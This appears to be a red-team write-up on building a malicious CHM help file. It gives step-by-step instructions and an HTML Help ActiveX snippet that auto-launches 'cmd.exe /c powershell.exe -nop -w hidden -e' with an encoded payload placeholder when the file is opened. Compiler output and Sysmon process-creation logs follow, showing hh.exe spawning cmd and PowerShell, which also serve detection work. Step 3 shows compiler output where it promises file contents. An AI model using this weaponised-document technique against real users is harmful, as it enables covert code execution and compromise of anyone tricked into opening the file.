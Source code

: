 - **Step 0:** Download and install [**Microsoft HTML Help Workshop and Documentation**](https://www.microsoft.com/en-us/download/details.aspx?id=21138)
- **Step 1:** Obtain a valid CHM file and unpack it using 7-zip
- **Step 2:** Find an entry-point HTML file within "*docs*" directory and insert the following code into it's `<body>` section:

```
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=",cmd.exe,/c powershell.exe -nop -w hidden -e <encoded-payload">
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
```

- **Step 3:** Prepare `Project.hpp` file with contents like the below ones:

```
PS C:\Users\bat\Desktop\red\Extract> hhc.exe .\Project.hpp
Microsoft HTML Help Compiler 4.74.8702

Compiling c:\Users\bat\Desktop\red\Extract\Project.chm


Compile time: 0 minutes, 0 seconds
24      Topics
29      Local links
2       Internet links
11      Graphics


Created c:\Users\bat\Desktop\red\Extract\Project.chm, 127,307 bytes
Compression decreased file by 51,098 bytes.
```

Sysmon



We got multiple process create depending on starting hh.exe process

- CMD Process

```
CommandLine: "C:\Windows\System32\cmd.exe" /c powershell.exe -nop -w hidden -e <Endoded_payload>
ParentImage: C:\Windows\hh.exe
ParentCommandLine: "C:\Windows\hh.exe" C:\Users\bat\Desktop\red\Extract\Project.chm
```

- PowerShell Process

```
CommandLine: powershell.exe  -nop -w hidden -e <Endoded_payload>
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe" /c powershell.exe -nop -w hidden -e <Endoded_payload>
```

